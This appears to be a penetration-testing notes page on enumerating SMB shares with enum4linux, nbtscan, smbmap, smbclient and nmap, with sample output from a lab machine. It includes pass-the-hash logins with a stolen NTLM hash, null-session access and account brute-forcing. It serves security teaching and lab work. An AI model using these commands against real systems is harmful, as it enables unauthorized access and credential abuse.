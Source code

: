 # SMB Scanning
This module contains method sof gathering information from targets that have Samaba, or the Windows sharing service (SMB) enabled.
## Enum4LINUX
[Enum4Linux](https://github.com/portcullislabs/enum4linux) can be used to gather information from a target system via the SMB protocol as so,
```
root@attacker-machine:~# enum4linux (TARGET IP)
```

## NBTScan
[NBTScan](http://www.unixwiz.net/tools/nbtscan.html) can be used to gather information from a target system via the SMB protocol as so,
```
root@attacker-machine:~# nbtscan (TARGET IP ADDRESS)
```

## SMBMap
[SMBMap](https://github.com/ShawnDEvans/smbmap) is ool that can gather information about a remote shared FS via the SMB protocol. The basic syntax for`smbmap` is as follows,
```
root@attacker-machine:~# smbmap -H (TARGET IP ADDRESS)
```
But, if you have access to an NTLM hash, let's use `0B186E661BBDBDFFFFFFFFFFF8B9FD8B` for example, you can append the common Windows NULL string along with a colon, `aad3b435b51404eeaad3b435b51404ee` to it as,
```
aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B
```
and pass along the username, let's say `user123` for example, of the credentials to get more SMB map information like so,
```
root@attacker-machine:~# ./smbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on (TARGET IP ADDRESS)...
[+] IP: (TARGET IP ADDRESS):445	Name: ypuffy.hackthebox.htb                             
	Disk                                                  	Permissions
	----                                                  	-----------
	user123's Files                                    	READ, WRITE
	IPC$                                              	NO ACCESS
'
```
## SMBClient
[SMBClient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) very bad software and I believe it's because there are too many variables at stake when trying to successfully use it. Your results may vary, and please do not take any authentication or listing errors as true. Test your enumerated credentials and data using other tools as well. This section describes methods for mounting and listing directories in Samba (LINUX)/Windows shares.

Sometimes, it is required to specify the SMB version number using the `-m smb(n)` argument for the NT service to allow a connection.

### Target information
Attempt to map the share without any credentials (a NULL session)
```
root@attacker-machine:~# smbclient -N -L (TARGET IP) -m SMB2
```
### Mounting shares
To mount a share without knowing any valid users (anonymous/guest login),
```
root@attacker-machine:~# smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -m SMB2
```
To mount a share with an enumerated username,
```
root@attacker-machine:~# smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER) -m SMB2
```
To mount a share with a username and stolen NTLM hash,
```
root@attacker-machine:~# smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)
```
e.g.
```
root@attacker-machine:~# smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
```

### File Transfers
To get a file from the target server,
```
smb> get "filename with or without spaces.txt"`
```
## NMAP
The NMAP Scripting Engine (NSE) can be used to brute-force accounts on the server,
```
root@attacker-machine:~# nmap --script smb-brute.nse -p445 (TARGET IP ADDRESS)
```
Another Nmap NSE script tyhat we can try will attempt to gather information on SMB NULL sessions and users as so,
```
root@attacker-machine:~# nmap -p 139.445 --script smb-enum-users (TARGET IP ADDRESS)
